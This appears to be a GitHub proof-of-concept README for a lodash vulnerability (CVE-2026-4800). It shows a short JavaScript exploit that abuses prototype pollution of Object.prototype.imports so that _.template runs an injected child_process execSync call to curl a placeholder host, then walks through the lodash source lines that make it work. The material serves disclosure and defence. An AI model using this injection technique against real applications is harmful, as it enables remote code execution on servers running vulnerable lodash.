

# CVE-2026-4800-POC

## Security Advisory

https://github.com/lodash/lodash/security/advisories/GHSA-r5fr-rjxr-66jc

## POC

```js
const _ = require('lodash');
Object.prototype.imports = {'x=process.getBuiltinModule("child_process").execSync("curl https://example.com")':undefined}
_.template('', {});
```




## Flow

*  Using a prior prototype pollution vulnerability to pollute Object.prototype.imports with an attacker-controlled property

* Next, it calls _.template('', {}) with a normal plain-object options value

* Inside `_.template()`, lodash copies `options` with `assignInWith({}, options, settings, ...)` at [lodash.js:14877](https://github.com/lodash/lodash/tree/4.17.23/dist/lodash.js#L14877)

```js
function template(string, options, guard) {
      // Based on John Resig's `tmpl` implementation
      // (http://ejohn.org/blog/javascript-micro-templating/)
      // and Laura Doktorova's doT.js (https://github.com/olado/doT).
      var settings = lodash.templateSettings;

      if (guard && isIterateeCall(string, options, guard)) {
        options = undefined;
      }
      string = toString(string);
      options = assignInWith({}, options, settings, customDefaultsAssignIn);


...
```

* `assignInWith` uses `keysIn(source)` at [lodash.js:12778](https://github.com/lodash/lodash/tree/4.17.23/dist/lodash.js#L12778)

```js
    var assignInWith = createAssigner(function(object, source, srcIndex, customizer) {
      copyObject(source, keysIn(source), object, customizer);
    });

```

* `keysIn()` includes inherited enumerable properties at [lodash.js:13440](https://github.com/lodash/lodash/tree/4.17.23/dist/lodash.js#L13440)

```js
    function keysIn(object) {
      return isArrayLike(object) ? arrayLikeKeys(object, true) : baseKeysIn(object);
    }

```

* Because the options object is a normal `{}`, it inherits the polluted `imports` property from `Object.prototype`, and lodash copies that inherited value into local `options.imports`

* Lodash then builds `imports` with `assignInWith({}, options.imports, settings.imports, ...)` at [lodash.js:14889](https://github.com/lodash/lodash/tree/4.17.23/dist/lodash.js#L14889), extracts `importsKeys` at [lodash.js:14889](https://github.com/lodash/lodash/tree/4.17.23/dist/lodash.js#L14889), and passes them into `Function(importsKeys, ...)` at [lodash.js:14957](https://github.com/lodash/lodash/tree/4.17.23/dist/lodash.js#L14957)

```js
...

      // Cleanup code by stripping empty strings.
      source = (isEvaluating ? source.replace(reEmptyStringLeading, '') : source)
        .replace(reEmptyStringMiddle, '$1')
        .replace(reEmptyStringTrailing, '$1;');

      // Frame code as the function body.
      source = 'function(' + (variable || 'obj') + ') {\n' +
        (variable
          ? ''
          : 'obj || (obj = {});\n'
        ) +
        "var __t, __p = ''" +
        (isEscaping
           ? ', __e = _.escape'
           : ''
        ) +
        (isEvaluating
          ? ', __j = Array.prototype.join;\n' +
            "function print() { __p += __j.call(arguments, '') }\n"
          : ';\n'
        ) +
        source +
        'return __p\n}';

      var result = attempt(function() {
        return Function(importsKeys, sourceURL + 'return ' + source)
          .apply(undefined, importsValues);
      });

...
```

* My polluted key is treated as a formal parameter with a default expression:

   ```js
   x=process.getBuiltinModule("child_process").execSync("curl https://example.com")
   ```